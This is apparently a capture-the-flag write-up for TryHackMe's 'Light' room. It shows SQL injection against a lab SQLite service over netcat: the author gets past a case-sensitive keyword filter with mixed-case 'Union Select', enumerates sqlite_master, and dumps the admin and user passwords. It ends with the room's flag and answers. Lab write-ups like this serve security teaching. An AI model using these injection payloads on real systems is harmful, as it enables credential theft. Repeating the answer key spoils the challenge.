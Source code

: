 # Light (v1.2)

(https://tryhackme.com/room/lightroom)

Welcome to the Light database application!

I am working on a database application called Light! Would you like to try it out?  
If so, the application is running on **port 1337**. You can connect to it using `nc MACHINE_IP 1337`  
You can use the username `smokey` in order to get started.

**Note**: Please allow the service 2 - 3 minutes to fully start before connecting to it.

## Answer the questions below

What is the admin username?

What is the password to the username mentioned in question 1?

What is the flag?

# Writeup

Let's first connect to the app and see what it shows when entering the username `smokey`:

```bash
┌──(kali㉿kali)-[~]
└─$ nc 10.10.219.172 1337
Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username:
Username not found.
Please enter your username: abc'
Error: unrecognized token: "'abc'' LIMIT 30"
```

When entering a username, it displays a password that's probably associated with the username, as long as it exists in the database. It doesn't do anything after like logging in, so it seems that the app is just for testing if the database works and our challenge is to find an SQL injection.

Interestingly, if we add a single quote, it will escape the input string and cause the query syntax to become invalid because of an unmatched quote, showing that this is vulnerable to a simple SQL injection. We can take a guess at what the SQL query looks like:

```sql
SELECT password FROM users WHERE username = '{input}' LIMIT 30;
```

Let's try injecting our own SQL:

```bash
Please enter your username: ' or '1'='1
Password: tF8tj2o94WE4LKC
Please enter your username: ' --
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
Please enter your username: ' union select * from users '
Ahh there is a word in there I don't like :(
```

Trying to list all passwords by using `' or '1'='1` to bypass the WHERE clause returns `tF8tj2o94WE4LKC`, which seems to not be the admin's password since entering this into the password question returns "Incorrect Answer". Unfortunately, there seem to be some restricted keywords since trying to list all users with `' union select * from users '` outputs "Ahh there is a word in there I don't like :(". Trying to insert a comment also shows that `/*`, `--`, and `%0b` aren't allowed.

The other restricted words probably relate to sql keywords, so let's find out:

```bash
Please enter your username: union
Ahh there is a word in there I don't like :(
Please enter your username: select
Ahh there is a word in there I don't like :(
Please enter your username: *
Username not found.
Please enter your username: from
Username not found.
Please enter your username: users
Username not found.
```

Looks like `union` and `select` aren't allowed (I also checked other keywords but only `select` and `union` were blocked), but what if the filter is poorly hard-coded and doesn't take capitalization into account?

```bash
Please enter your username: SELECT
Ahh there is a word in there I don't like :(
Please enter your username: Select
Username not found.
Please enter your username: ' Union Select * from users '
Error: no such table: users
Please enter your username: ' uNiON SeLECt * from users '
Error: no such table: users
```

Seems like the filter only checks for all-lowercase and all-uppercase keywords, but nothing in between. Now that we know how to inject SQL, let's try to find the database version to better know how to proceed (source: https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#DatabaseVersionDiscovery):

```bash
Please enter your username: ' Union Select @@version '
Error: unrecognized token: "@"
Please enter your username: ' Union Select version from PRODUCT_COMPONENT_VERSION where product like 'Oracle Database%
Error: no such table: PRODUCT_COMPONENT_VERSION
Please enter your username: ' Union Select version() '
Error: no such function: version
Please enter your username: ' Union Select sqlite_version() '
Password: 3.31.1
```

The database uses sqlite (light..), so let's find what tables are in the database by viewing `sqlite_master` (see https://sqlite.org/schematab.html). We'll go one column at a time to match the existing query:

```bash
Please enter your username: ' Union Select count(name) from sqlite_master '
Password: 2
Please enter your username: ' Union Select type from sqlite_master '
Password: table
Please enter your username: ' Union Select name from sqlite_master '
Password: admintable
Please enter your username: ' Union Select sql from sqlite_master '
Password: CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
Please enter your username: ' Union Select name from sqlite_master where name!='admintable
Password: usertable
Please enter your username: ' Union Select sql from sqlite_master where name=='usertable
Password: CREATE TABLE usertable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
```

There are 2 tables, `admintable` and `usertable`, both with the same columns `id`, `username`, and `password`. Let's look inside `admintable`:

```bash
Please enter your username: ' Union Select count(username) from admintable '
Password: 2
Please enter your username: ' Union Select username from admintable '
Password: TryHackMeAdmin
Please enter your username: ' Union Select password from admintable '
Password: THM{SQLit3_InJ3cTion_is_SimplE_nO?}
Please enter your username: ' Union Select password from admintable where username='TryHackMeAdmin
Password: mamZtAuMlrsEy5bp6q17
```

We see the admin user `TryHackMeAdmin` with the password `mamZtAuMlrsEy5bp6q17`. Luckily, we also got the flag by accident when selecting a password without specifying a user, but we can also find it by checking the other account's password:

```bash
Please enter your username: ' Union Select username from admintable where username!='TryHackMeAdmin
Password: flag
Please enter your username: ' Union Select password from admintable where username='flag
Password: THM{SQLit3_InJ3cTion_is_SimplE_nO?}
```

We can also look inside usertables to see if there is anything interesting (there is not):

```bash
Please enter your username: ' Union Select count(username) from usertable '
Password: 8
Please enter your username: ' Union Select username from usertable where username!='smokey
Password: alice
Please enter your username: ' Union Select username from usertable where username not in ('smokey', 'alice') and '1'='1
Password: hazel
...
Please enter your username: ' Union Select password from usertable where username='alice
Password: tF8tj2o94WE4LKC
Please enter your username: ' Union Select password from usertable where username='hazel
Password: EcSuU35WlVipjXG
Please enter your username: ' Union Select password from usertable where username='john
Password: e74tqwRh2oApPo6
Please enter your username: ' Union Select password from usertable where username='michael
Password: 7DV4dwA0g5FacRe
Please enter your username: ' Union Select password from usertable where username='ralph
Password: YO1U9O1m52aJImA
Please enter your username: ' Union Select password from usertable where username='rob
Password: yAn4fPaF2qpCKpR
Please enter your username: ' Union Select password from usertable where username='steve
Password: WObjufHX1foR8d7
```

## Answers

What is the admin username?

`TryHackMeAdmin`

What is the password to the username mentioned in question 1?

`mamZtAuMlrsEy5bp6q17`

What is the flag?

`THM{SQLit3_InJ3cTion_is_SimplE_nO?}`
